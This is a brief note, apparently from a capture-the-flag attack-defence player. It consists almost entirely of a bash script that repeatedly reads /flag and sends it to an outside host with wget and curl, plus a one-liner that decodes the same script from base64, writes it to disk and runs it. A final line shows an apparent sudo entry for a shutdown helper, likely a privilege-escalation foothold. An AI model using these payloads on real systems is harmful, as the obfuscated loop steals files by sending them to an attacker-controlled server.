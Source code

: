暂时未研究出crontab写法
```sh
#!/bin/bash  
step=2
while true;do
    f=`cat /flag`
    url="http://rtceth.natappfree.cc?token=serfend&flag=$f"
    wget $url
    curl $url
    sleep $step
done
exit 0
```
```sh
/bin/echo 'IyEvYmluL2Jhc2ggIApzdGVwPTIKd2hpbGUgdHJ1ZTtkbwogICAgZj1gY2F0IC9mbGFnYAogICAgdXJsPSJodHRwOi8vcnRjZXRoLm5hdGFwcGZyZWUuY2M/dG9rZW49c2VyZmVuZCZmbGFnPSRmIgogICAgd2dldCAkdXJsCiAgICBjdXJsICR1cmwKICAgIHNsZWVwICRzdGVwCmRvbmUKZXhpdCAw' | /usr/bin/base64 -d > /app/sftest.sh && /bin/sh /app/sftest.sh 
```

user hostname=b1ea97d96875:/usr/lib/xfce4/xfsm-shutdown-helper